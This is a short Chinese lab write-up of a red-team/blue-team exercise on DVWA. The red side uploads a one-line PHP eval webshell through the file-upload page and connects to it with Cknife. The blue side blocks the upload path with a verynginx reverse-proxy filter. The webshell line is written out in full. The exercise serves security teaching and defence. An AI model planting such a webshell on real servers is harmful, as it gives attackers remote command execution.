 # 支线任务    

## 环境  
* kali-2017.1.64bits  

## 搭建一个具备文件上传功能且存在漏洞的网站供红方完成攻击和远控任务   
* 蓝方：
	1. 搭建dvwa，security设为low  
* 红方：
	1. Cknife在php7下需要修改Config.ini相关配置 [参考链接](https://github.com/Chora10/Cknife/issues/33)  
	2. 使用php的eval()函数实现一句话木马
		
			<?php @eval($_POST['apple']);?>  
	3. 在File upload中上传含有上述木马的文件  

	![](webshell1.png)  
	![](webshell2.png)  

## 在不修改网站源代码的前提下，仅通过外围安全加固的方式检测并阻止红方的远程攻击  
1. 使用docker容器技术在网关搭建verynginx实现反向代理 [参考链接](https://github.com/camilb/docker-verynginx)  
2. 配置verynginx规则  
	* 访问网关10.0.2.15/dvwa可以反向代理至内网搭建的一个webserver，即dvwa  
	* 配置filter对路径为/hackable/uploads/实现拦截  

